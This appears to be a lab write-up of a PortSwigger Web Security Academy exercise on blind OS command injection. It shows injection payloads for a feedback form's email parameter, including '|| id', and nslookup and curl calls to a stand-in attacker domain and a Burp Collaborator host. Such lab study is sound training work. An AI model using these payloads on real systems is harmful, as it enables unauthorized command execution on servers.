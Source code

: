 # Blind OS command injection with out-of-band interaction

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band), you'll learn: Blind OS command injection with out-of-band interaction! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a blind OS [command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

## Exploition

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301135643.png)

In here, we can see there's a "Submit feedback" page:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301135708.png)

Let's try to submit one:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301135743.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301135751.png)

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301135807.png)

When we clicked the "Submit feedback" button, it'll send a POST request to `/feedback/submit`, with parameter `csrf`, `name`, `email`, `subject`, `message`, and the response is an empty JSON data.

Now, if the web application want to send an email to somewhere, **it could be using a Linux command called `mail`.**

That being said, we can try to do **OS command injection** in the `email` parameter:

```bash
|| id%0a
```

We **pipe (parse) the previous command into `id`**. Also, **we’ll need to provide a newline character(`\n` or `%0a` in URL encoding)**, to execute the `id` command.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301140340.png)

However, there's no output of our command in the response.

With that said, it might be vulnerable to blind OS command injection.

We can use an injected command that will trigger an out-of-band network interaction with a system that we control, using OAST techniques. For example:

```bash
& nslookup kgji2ohoyw.web-attacker.com &
```

This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected.

- Go to Burp Suite's Collaborator, and copy the payload:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301140521.png)

- Send the payload:

**Payload:**
```bash
|| nslookup mlbzz36dwstcsyzbzens1q48lzrtfj38.oastify.com%0a
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301140612.png)

- Burp Suite's Collaborator:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301140627.png)

As you can see, we successfully **received 2 DNS lookups**, which means **the feedback function is indeed vulnerable to blind OS command injection**!!

**Besides from `nslookup`, we can also use `curl`:**
```bash
|| curl mlbzz36dwstcsyzbzens1q48lzrtfj38.oastify.com%0a
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301140810.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OS-Command-Injection/OSCI-4/images/Pasted%20image%2020230301140717.png)

# What we've learned:

1. Blind OS command injection with out-of-band interaction